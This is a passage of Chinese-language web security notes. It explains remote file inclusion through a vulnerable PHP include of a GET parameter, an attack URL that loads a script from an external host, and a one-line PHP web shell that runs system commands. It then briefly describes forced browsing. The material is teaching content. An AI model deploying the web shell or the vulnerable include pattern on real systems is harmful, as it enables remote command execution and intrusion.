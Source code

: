 http://example.com/foo.php 的源代码（部分摘录） 

> $modname = $_GET['mod'];
>
> include($modname); 

攻击者指定如同下面形式的 URL发出请求。 

> http://example.com/foo.php?mod=**http://hackr.jp/cmd.php&cmd=ls** 

攻击者已事先在外部服务器上准备了以下这段脚本。 

> http://hackr.jp/cmd.php 的源代码
>
> <? system($_GET['cmd']) ?> 

假设 Web 服务器（example.com）的 include 可以引入外部服务器的 URL，那就会读入攻击者在外部服务器上事先准备的 URL（http://hackr.jp/cmd.php）。结果，通过 system 函数就能在 Web 服务器（example.com）上执行查询字段指定的 OS 命令了。 

![1565859608457](images/1565859608457.png)

- ###### 强制浏览

强制浏览（Forced Browsing）安全漏洞是指，从安置在 Web 服务器的公开目录下的文件中，浏览那些原本非自愿公开的文件。 

- 强制浏览有可能会造成以下一些影响。
  - 泄露顾客的个人信息等重要情报
  - 泄露原本需要具有访问权限的用户才可查阅的信息内容
  - 泄露未外连到外界的文件 

![1565860182792](images/1565860182792.png)